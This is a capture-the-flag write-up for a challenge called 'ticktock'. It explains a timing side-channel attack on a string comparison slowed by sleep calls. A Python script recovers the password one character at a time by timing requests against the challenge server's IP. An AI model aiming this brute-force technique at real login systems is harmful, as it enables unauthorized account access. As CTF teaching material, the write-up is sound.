 # ticktock
by Halogen
> Problem Description
## Solution
This had 0 solves until the admin dropped their insane hint
![hint.png|center](./assets/hint.png)
<center>🙏 Thank you @bbbb 🙏</center>

So after being given the compare string code, Woah! Look at all the asyncio.sleep. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

The idea is we brute force our admin and password smartly, by checking the time it took to process our wrong username/password. First we brute force the length of the string, then each individual character, starting from the front.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly Print out answer
	print(pwd)
	i += 1
```

After using the given username and password we get the flag